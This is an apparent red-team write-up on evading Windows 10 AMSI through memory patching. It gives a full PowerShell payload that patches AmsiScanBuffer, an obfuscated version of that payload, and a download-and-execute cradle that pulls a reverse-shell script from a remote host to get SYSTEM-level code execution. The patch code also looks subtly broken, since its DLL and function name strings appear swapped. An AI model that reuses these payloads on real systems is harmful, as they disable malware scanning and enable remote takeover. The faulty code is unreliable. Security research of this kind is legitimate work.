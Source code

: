 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Memory Patching & Obfuscation**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline  {#section-0}

The goal of this write-up is to evade the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28) using AMSI memory patching technique. The objective was to gain a Remote Code Execution (RCE) as NT/Authority System.

![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime.

By default, windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space.  `AmsiScanBuffer()`and `AmsiScanString()` are used by the antivirus before execution to scan the buffer and strings for suspicious activities. This ultimately prevents arbitrary execution of code.
# AMSI Evasion {#section-1}
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Code fragmentation involves breaking down malicious code into smaller, seemingly harmless components. This is then assembled at runtime to evade static analysis.
This approach challenges antivirus scanners that rely on signature-based detection.

##### Obfuscation: 
Obfuscation techniques are utilized to deliberately obscure the actual intent and functionality of a script. By employing various obfuscation methods, such as code encryption, renaming variables, adding meaningless code snippet to obscure intent of the script, attackers can make their code appear convoluted. This makes AMSI scanners challenging  to interpret the true purpose of the script.

#####  Memory Patching: 
Memory patching modifies the AMSI Dynamic Link Library (DLL) in memory during runtime. This technique allows threat actors to temporarily disable or alter the functionality of AMSI. Subsequently attackers can run malicious scripts in memory without hindrance and alerts
#### PowerShell Downgrade: 
PowerShell downgrading is switching the current PowerShell to Windows PowerShell verison 2.0. This version does not have AMSI protection, which makes it susceptible to arbitrary code execution. By using an older version of PowerShell, attackers can bypass the built-in security measures present in newer versions and execute malicious scripts undetected.
## Proof of Concept {#section-2}

![](/assets/AV/Final.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through PowerShell using the below command in memory.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI successfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching  {#section-3}
In order to bypass AMSI, the tester utilized the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"

using System;
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```


By applying a patch to the `AmsiScanBuffer` function in `AMSI.dll`, using specific assembly code (mov eax, 0x80070057 and ret), the function promptly returns an error code. This effectively avoides AMSI from scanning the PowerShell code. This method allows the attacker's  to execute PowerShell code in memory without triggering AMSI's detection.

However, it is essential to acknowledge that the above memory patching payload might be flagged by ASMI before it could patch the `ASMIScanBuffer.dll` itself. Thus it is necessary to implement proper obfuscation methodologies before delivering the payload. To conceal the payload's content and intention, the tester opted to utilize Chameleon PowerShell Obfuscator. Chameleon is a specialized tool designed to obfuscate PowerShell scripts and circumvent AMSI and commercial antivirus solutions. It employs a range of obfuscation techniques to evade common detection signatures, thereby enhancing its effectiveness in avoiding detection. Examples of obfuscation methods include but are not limited to comment deletion/substitution
string substitution (variables, functions, data-types) ,variable concatenation ,indentation randomization ,semi-random backticks insertion and randomization.

The below code snippet contains a payload that has undergone multiple layers of obfuscation.
```bash
$GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11evXUFDQD589KWR9QtwKq2Qg0mE6uMREzx7iRIZJOK2qLeZKpRqZslro01qcJC03aScqnLmSiSVJ6AIwZKGZF1aEaYGjS13PQyKmRdpmc2yMyISCN1yYuQCBZkF5i2LKBOpm7FcEshpWYz6QTzs9m5WNt6PONU73eoXpVQZKAbDUydPdN2ZdTeNdkOjDZHErYeh5b0Tqq9N = @"
// thing 
// using syStEm.CoLLeCtiONS.ArrAyLiST;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
      [DllImport("kernel32")]
      public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("kernel32")]
       public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11

```


After implementing effective obfuscation techniques, the payload is dropped in the PowerShell command prompt. The `ASMIScanBuffer.dll` returns an `Invalid Argument` and ends the AMSI program without being able to scan any code. With AMSI neutralized, the tester proceeded by hosting a Python web server on port 8443 to serve a PowerShell Reverse Shell Scrip.
```bash
python3 -m http.server 8443
```

Taking advantage of the payload, the tester successfully initiated a reverse TCP connection via PowerShell, executing the script in memory:
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
Consequently, the tester achieved a  Remote Code Execution (RCE) with NT/Authority System privileges.
![](/assets/AV/system.png)  

## Reference  {#section-4}
[Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass) && [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
